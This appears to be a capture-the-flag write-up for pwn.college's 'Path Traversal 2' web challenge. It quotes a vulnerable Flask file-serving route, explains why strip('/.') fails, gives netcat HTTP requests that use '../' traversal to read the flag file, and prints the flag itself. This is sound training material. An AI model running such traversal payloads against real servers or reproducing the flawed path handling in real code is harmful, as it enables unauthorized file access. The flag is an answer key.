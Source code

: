 # Challenge: Path Traversal 2

title: "Path Traversal 2 — Writeup"
category: "Web Exploitation"
challenge: "Path Traversal 2"
platform: "pwn.college"
difficulty: "Intermediate"
---

# Path Traversal 2 — Writeup

## 🧠 Challenge Overview

In this challenge, we are provided with a Python Flask web server which serves files from the `/challenge/files/` directory via the `/data/<path>` endpoint.

The directory structure is as follows:

```
/challenge/
├── DESCRIPTION.md
├── files/
│   ├── index.html
│   └── fortunes/
│       ├── fortune-1.txt
│       ├── fortune-2.txt
│       └── fortune-3.txt
└── server
```

## 🔍 Server Code Analysis

The vulnerable server code is as follows:

```python
@app.route("/data", methods=["GET"])
@app.route("/data/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path.strip("/.")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))
```

The key vulnerability lies in this line:

```python
requested_path = app.root_path + "/files/" + path.strip("/.")
```

The `strip("/.")` does not properly sanitize path traversal attempts like `../../../flag`, since `strip` only removes leading and trailing characters — not sequences or intermediate components.

## 🎯 Exploitation Steps

### Step 1: Basic request
```bash
printf "GET /data HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Response confirms access to `index.html` and links to available fortunes.

### Step 2: Attempt to access the directory itself (Fails)
```bash
printf "GET /data/fortunes HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Returns `500 Internal Server Error` because the target is a directory, not a file.

### Step 3: Try Path Traversal
```bash
printf "GET /data/fortunes/../../../flag HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
✅ Returns the flag:
```
pwn.college{oDarDRBzk56F2i1vM_ERNz7PJ7U.QXyYTN2wSM0IzMyEzW}
```


## 🏁 Flag

```
pwn.college{oDarDRBzk56F2i1vM_ERNz7PJ7U.QXyYTN2wSM0IzMyEzW}
```



